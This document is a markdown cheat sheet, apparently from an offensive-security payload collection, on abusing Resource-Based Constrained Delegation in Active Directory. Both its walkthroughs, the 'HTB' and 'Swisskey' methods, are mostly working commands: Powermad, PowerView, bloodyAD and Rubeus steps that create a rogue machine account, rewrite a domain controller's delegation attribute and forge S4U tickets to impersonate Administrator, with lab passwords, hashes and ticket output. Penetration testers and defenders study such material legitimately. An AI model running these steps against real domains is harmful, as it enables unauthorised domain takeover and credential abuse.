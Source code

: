 # Kerberos Delegation - Resource Based Constrained Delegation

Resource-based Constrained Delegation was introduced in Windows Server 2012.

> The user sends a Service Ticket (ST) to access the service ("Service A"), and if the service is allowed to delegate to another pre-defined service ("Service B"), then Service A can present to the authentication service the TGS that the user provided and obtain a ST for the user to Service B.  <https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html>

## HTB Method (Windows)
> Requirements: 
  1. Access to a user or group that has enough privileges to modify the msds-allowedtoactonbehalfofotheridentity. Commonly GenericWrite/All, WriteProperty, or Write DACL 
  2. Control of another object that has an SPN

1. Search RBCD 
  ```powershell
  Import-Module ./powerview.ps1

  # Get all computers in the domain into a variable
  $computers = Get-DomainComputer

  # Get all users in the domain into a variable
  $users = Get-DomainUser

  # Define the required access rights in a variable
  $accessrights = "GenericWrite","GenericAll","WriteProperty","WriteDACL"

  # Loop though each computer in the domain
  foreach ($computer in $computers){
      # get the security Descriptor for the computer
      $acl = Get-DomainObjectACL -SamAccountName $computer.SamAccountName -ResolveGUIDs

      # Loop through each user in the domain
      foreach ($user in $users) {
          $hasAccess = $acl | ?{$_.SecurityIdentifier -eq $user.objectsid} | %{($_.ActiveDirectoryRights -match ($accessRights -join '|'))}

          if ($hasAccess) {
              Write-Output "$($user.SamAccountName) has the required access rights on $($computer.name)"
          }
      }
  }
  ```
2. RBCD Enumeration
  ```powershell
  .\SearchRBCD.ps1
  ```
3. Use PowerMad to create a fake computer
  ```powershell
  Import-Module .\Powermad.ps1
  New-MachineAccount -MachineAccount <FakeMachineName> -Password $(ConvertTo-SecureString "<password>" -AsPlainText -Force)
  ```
  4. Modify the target computers
    ```powershell
    Import-Module .\Powerview.ps1
    $ComputerSid = Get-DomainComputer <FakeMachineName> -Properties objectsid | Select -Expand objectsid
    $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
    $SDBytes = New-Object byte[] ($SD.BinaryLength)
    $SD.GetBinaryForm($SDBytes, 0)
    $credentials = New-Object System.Management.Automation.PSCredential "INLANEFREIGHT\carole.holmes", (ConvertTo-SecureString "Y3t4n0th3rP4ssw0rd" -AsPlainText -Force)
    Get-DomainComputer DC01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Credential $credentials -Verbose
    ```
  5. Get Computer hashes with Rubeus
    ```powershell
    .\Rubeus.exe hash /password:Hackthebox123+! /user:HACKTHEBOX$ /domain:inlanefreight.local
    ```
  6. s4u to Impersonate the Administrator
    ```powershell
    .\Rubeus.exe s4u /user:HACKTHEBOX$ /rc4:CF767C9A9C529361F108AA67BF1B3695 /impersonateuser:administrator /msdsspn:cifs/dc01.inlanefreight.local /ptt
    ```
    `Note: We can also use /altservice:host,RPCSS,wsman,http,ldap,krbtgt,winrm to include aditional services to our ticket request.`
  7. Connec to the target Machine 
    ```powershell
    ls \\dc01.inlanefreight.local\c$
    ```
  8. Clean up 
    ```powershell
    Import-Module .\PowerView.ps1
    $credentials = New-Object System.Management.Automation.PSCredential "INLANEFREIGHT\carole.holmes", (ConvertTo-SecureString "Y3t4n0th3rP4ssw0rd" -AsPlainText -Force)
    Get-DomainComputer DC01 | Set-DomainObject -Clear msDS-AllowedToActOnBehalfOfOtherIdentity -Credential $credentials -Verbose
    ```

## Swisskey Method 

1. Import **Powermad** and **Powerview**

    ```powershell
    PowerShell.exe -ExecutionPolicy Bypass
    Import-Module .\powermad.ps1
    Import-Module .\powerview.ps1
    ```

2. Get user SID

    ```powershell
    $AttackerSID = Get-DomainUser SvcJoinComputerToDom -Properties objectsid | Select -Expand objectsid
    $ACE = Get-DomainObjectACL dc01-ww2.factory.lan | ?{$_.SecurityIdentifier -match $AttackerSID}
    $ACE
    ConvertFrom-SID $ACE.SecurityIdentifier

    # alternative (Windows/Linux)
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get writable --otype COMPUTER --detail | egrep -i 'distinguishedName|msds-allowedtoactonbehalfofotheridentity'
    ```

3. Abuse **MachineAccountQuota** to create a computer account and set an SPN for it

    ```powershell
    New-MachineAccount -MachineAccount swktest -Password $(ConvertTo-SecureString 'Weakest123*' -AsPlainText -Force)

    # alternative (Windows/Linux)
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 add computer swktest 'Weakest123*'
    ```

4. Rewrite DC's **AllowedToActOnBehalfOfOtherIdentity** properties

    ```powershell
    $ComputerSid = Get-DomainComputer swktest -Properties objectsid | Select -Expand objectsid
    $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
    $SDBytes = New-Object byte[] ($SD.BinaryLength)
    $SD.GetBinaryForm($SDBytes, 0)
    Get-DomainComputer dc01-ww2.factory.lan | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
    $RawBytes = Get-DomainComputer dc01-ww2.factory.lan -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
    $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
    $Descriptor.DiscretionaryAcl

    # alternative (Windows/Linux)
    # use 'remove' instead of 'add' after exploit
    bloodyAD --host 10.1.0.4 -u user -p 'totoTOTOtoto1234*' -d crash.lab add rbcd 'dc01-ww2$' 'swktest$'
    ```

    ```ps1
    # alternative
    $SID_FROM_PREVIOUS_COMMAND = Get-DomainComputer MACHINE_ACCOUNT_NAME -Properties objectsid | Select -Expand objectsid
    $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$SID_FROM_PREVIOUS_COMMAND)"; $SDBytes = New-Object byte[] ($SD.BinaryLength); $SD.GetBinaryForm($SDBytes, 0); Get-DomainComputer DC01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

    # alternative
    StandIn_Net35.exe --computer dc01 --sid SID_FROM_PREVIOUS_COMMAND
    ```

5. Use Rubeus to get hash from password

    ```powershell
    Rubeus.exe hash /password:'Weakest123*' /user:swktest$  /domain:factory.lan
    [*] Input password             : Weakest123*
    [*] Input username             : swktest$
    [*] Input domain               : factory.lan
    [*] Salt                       : FACTORY.LANswktest
    [*]       rc4_hmac             : F8E064CA98539B735600714A1F1907DD
    [*]       aes128_cts_hmac_sha1 : D45DEADECB703CFE3774F2AA20DB9498
    [*]       aes256_cts_hmac_sha1 : 0129D24B2793DD66BAF3E979500D8B313444B4D3004DE676FA6AFEAC1AC5C347
    [*]       des_cbc_md5          : BA297CFD07E62A5E
    ```

6. Impersonate domain admin using our newly created machine account

    ```powershell
    .\Rubeus.exe s4u /user:swktest$ /rc4:F8E064CA98539B735600714A1F1907DD /impersonateuser:Administrator /msdsspn:cifs/dc01-ww2.factory.lan /ptt /altservice:cifs,http,host,rpcss,wsman,ldap
    .\Rubeus.exe s4u /user:swktest$ /aes256:0129D24B2793DD66BAF3E979500D8B313444B4D3004DE676FA6AFEAC1AC5C347 /impersonateuser:Administrator /msdsspn:cifs/dc01-ww2.factory.lan /ptt /altservice:cifs,http,host,rpcss,wsman,ldap

    [*] Impersonating user 'Administrator' to target SPN 'cifs/dc01-ww2.factory.lan'
    [*] Using domain controller: DC01-WW2.factory.lan (172.16.42.5)
    [*] Building S4U2proxy request for service: 'cifs/dc01-ww2.factory.lan'
    [*] Sending S4U2proxy request
    [+] S4U2proxy success!
    [*] base64(ticket.kirbi) for SPN 'cifs/dc01-ww2.factory.lan':

        doIGXDCCBligAwIBBaEDAgEWooIFXDCCBVhhggVUMIIFUKADAgEFoQ0bC0ZBQ1RPUlkuTEFOoicwJaAD
        AgECoR4wHBsEY2lmcxsUZGMwMS[...]PMIIFC6ADAgESoQMCAQOiggT9BIIE
        LmZhY3RvcnkubGFu

    [*] Action: Import Ticket
    [+] Ticket successfully imported!
    ```

## References

* [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory - 28 January 2019 - Elad Shami](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [A Case Study in Wagging the Dog: Computer Takeover - Will Schroeder - Feb 28, 2019](https://posts.specterops.io/a-case-study-in-wagging-the-dog-computer-takeover-2bcb7f94c783)
